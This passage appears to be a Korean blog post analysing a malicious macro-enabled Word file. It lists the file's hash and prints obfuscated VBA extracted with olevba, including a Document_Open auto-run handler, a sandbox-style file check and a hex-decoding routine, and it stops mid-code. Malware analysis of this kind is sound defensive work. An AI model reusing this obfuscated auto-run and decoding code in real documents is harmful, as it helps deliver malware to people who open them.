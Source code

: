 ```yaml
---
layout: single
title: "문서형 악성코드 분석"
categories: Malware
tag: [Malware,vbs,macro]
author_profile: false
sidebar:
    nav: "docs"
search: false
---
```




# 악성코드 정보
    파일 타입: Docm
	해시 값: 014827baac8a836d570203d3ff88b22957dcedd1cc4eae49e4ac62334f4f4903
    파일 크기: 1,406,144 Byte



# 분석 시작

olevba 사용해 내부 코드를 확인하면 밑에 있는 코드를 확인할 수 있다. 

```vb
Sub obiwgfhsha()
End Sub
Private Function ylpdfpnmlbmswkm() As Variant
    ylpdfpnmlbmswkm = Array("chs", "cht", "deu", "enu", "esn", "fra", "ita", "jpn", "kor", "rus")
End Function
Private Function cwqykutktzoyalcwyhbf() As Variant
    cwqykutktzoyalcwyhbf = Array("A1", "BU", "CZ", "DA", "FI", "FR", "GR", "HE", "HEB", "HU", "IC", "IT", "KOR", "NE", "NO", "PL1", "RO", "RU", "SP")
End Function
Private Sub Document_Open()
    zwxcnxajcshyp True
End Sub
Private Sub dtlqnhxneoffkjywab(kwzbshccypfxpbrc As Boolean)
    If Dir(".gattaka") <> "" Then
        MsgBox "Not applicable environment", vbCritical, "Error"
    Else
        
    End If
End Sub
Private Function tylkftcicrjxfvkh(jrdhrfrnwmiz As String) As Byte()
    Dim tjsjtweivmxniyr As Long, cthcsdekmdaszjq As Long
    Dim wzkjzdvximq() As Byte
    Dim ayxhcvijnqwfjysy As Long
    Dim sndhqsilovqxlairz As String
    tjsjtweivmxniyr = Len(jrdhrfrnwmiz)
    ReDim wzkjzdvximq(0 To tjsjtweivmxniyr / 2 - 1)
    ayxhcvijnqwfjysy = LBound(wzkjzdvximq)
    sndhqsilovqxlairz = rrhzspxkphvvy("137171")
    For cthcsdekmdaszjq = tjsjtweivmxniyr - 1 To 0 Step -2
        wzkjzdvximq(ayxhcvijnqwfjysy) = CByte(CLng(sndhqsilovqxlairz + (Mid(jrdhrfrnwmiz, cthcsdekmdaszjq, 2))))
        ayxhcvijnqwfjysy = ayxhcvijnqwfjysy + 1
    Next cthcsdekmdaszjq
    tylkftcicrjxfvkh = wzkjzdvximq
End Function
Private Sub raeozmfjnymq(pvnynzivlnpbtfcckhkm As String, cpnptsrgjlywqowekc() As Byte, Optional tiifnysxfmhsk As Boolean = False)
```